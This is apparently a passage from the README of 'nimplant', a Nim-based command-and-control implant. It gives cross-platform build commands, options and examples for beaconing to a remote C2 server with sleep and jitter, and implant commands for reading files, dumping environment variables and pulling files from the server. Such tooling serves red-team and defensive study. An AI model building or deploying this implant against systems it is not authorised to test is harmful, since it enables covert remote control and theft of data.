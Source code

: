 ### Manual Compilation
```bash
# Linux x64
nim c --opt:speed --define:release --out:nimplant_linux main.nim

# Windows x64 (cross-compile)
nim c --cpu:amd64 --os:windows --define:mingw --out:nimplant.exe main.nim

# macOS x64
nim c --cpu:amd64 --os:macosx --out:nimplant_macos main.nim
```

## Usage

### Command Line Options
```bash
nimplant [options]

Options:
  -h, --host <host>     C2 server host (default: 127.0.0.1)
  -p, --port <port>     C2 server port (default: 8080)
  --https               Use HTTPS instead of HTTP
  -s, --sleep <sec>     Sleep interval in seconds (default: 5)
  -j, --jitter <pct>    Jitter percentage (default: 20)
  --help                Show help message
```

### Examples
```bash
# Connect to local C2 server
./nimplant

# Connect to remote HTTPS C2 server
./nimplant -h c2.example.com -p 443 --https

# Custom sleep and jitter settings
./nimplant -h 192.168.1.100 -s 10 -j 30
```

## Supported Commands

### System Information
- `whoami` - Get current username
- `hostname` - Get computer hostname
- `pwd` - Get current working directory
- `env` - List environment variables
- `sysinfo` - Comprehensive system information

### File Operations
- `ls [dir]` / `dir [dir]` - List directory contents
- `cat <file>` / `type <file>` - Read file contents
- `cd <dir>` - Change directory
- `cp <src> <dst>` - Copy files/directories
- `upload <fileId> <name> [path]` - Download file from C2
